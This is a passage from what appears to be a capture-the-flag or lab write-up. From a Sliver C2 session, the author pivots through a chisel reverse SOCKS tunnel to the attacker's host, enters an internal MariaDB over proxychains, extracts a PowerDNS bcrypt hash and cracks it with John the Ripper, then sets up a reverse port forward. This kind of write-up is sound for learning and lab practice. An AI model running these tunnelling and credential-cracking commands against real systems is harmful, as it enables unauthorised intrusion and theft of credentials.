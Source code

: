 ```
sliver (build) > execute chisel client 10.8.0.173:8001 R:socks
[*] Command executed successfully
```

You'll need to edit your `/etc/proxychains4.conf` to reflect on the address that the socks proxy is listening on. This generally is on port 1080/1081, the chisel server output should give you the answer.

Now that we're tunneled directly to the machine, we can attempt to access the MySQL database on our Kali machine by using `proxychains`.

# Enumerating MySQL

```
└─$ proxychains4 -q mysql -u root -h 172.18.0.1 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 51
Server version: 11.3.2-MariaDB-1:11.3.2+maria~ubu2204 mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

After a bit of enumeration, I found a hash for `PowerDNS` within the `powerdnsadmin` database underneath the `user` table. This specific hash seems to be encoded with `bcrypt`, as denoted by the `$2b$` delimiter.

`JTR` can do the heavy lifting for us in this case, to which I also made sure to place this hash within its own text file.

```
└─$ john powerdns.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[...snip...]          (?)     
1g 0:00:01:18 DONE (2024-06-03 14:18) 0.01270g/s 16.92p/s 16.92c/s 16.92C/s winston..incubus
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the hash to PowerDNS, we'll need to find a way to access its resources to be able to login.

If you try to access port `8081` through a reverse port forward (outlined below):

```
sliver (build) > execute chisel client 10.8.0.173:8002 R:8081:127.0.0.1:8081
```
